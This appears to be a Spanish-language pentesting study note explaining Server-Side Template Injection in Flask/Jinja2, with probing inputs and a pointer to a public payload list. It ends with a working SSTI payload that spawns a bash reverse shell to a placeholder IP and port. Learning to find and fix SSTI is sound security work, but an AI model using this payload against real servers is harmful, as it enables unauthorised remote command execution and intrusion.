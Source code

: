 -----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es un **SSTI** ?

Un **Server-Side Template Injection** ( **SSTI** ) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor. 

Las **plantillas** de servidor son archivos que contienen código que se utiliza para generar *contenido dinámico* en una aplicación web. Los atacantes puede aprovechar una vulerabilidad **SSTI** para inyectar código malicioso en una platinllar de servidor, lo que les pertmite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la apliación web como a posibles datos sensibles. 

----

# Explotación 

Cuando solemos ver que un campo que ingresamos, sea de formulario o url, es representado en el output de la página web y sabemos que por detras corre un framework o plantilla como **Django**, **Flask**, **Ruby on Rails**, entre otros, podemos empezar a pensar en un **SSTI**, pudiendo sacar posibles comandos a inyectar de páginas como [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

De esta manera, supongamos que tenemos decubrimos con **whatweb** o **wapalyzer** que nuestra aplicación corre Flask, ingresamos a la app y vemos que tenemos un campo:

![[SSTI_Example.png]]

El cual vemos que se representa en el output: 

![[SSTI_Example2.png]]

Podemos empezar a probar cosas, en este caso probando inputs como `{{7*7}}`, `{{config.items()}}`, entre otros.  (Todos obtenidos de la sección de [python](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)), en caso de que veamos un output esperado ante estos payloads, podriamos verificar si se logran ejecutar comandos del sistema con el payload para realizarlo, y en caso de que si, solo quedaria ganar acceso con algun metodo dentro de las [[Shells]]. 

Ejemplo **{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/{ip}/{port} 0>&1"').read() }}{% endraw %}**
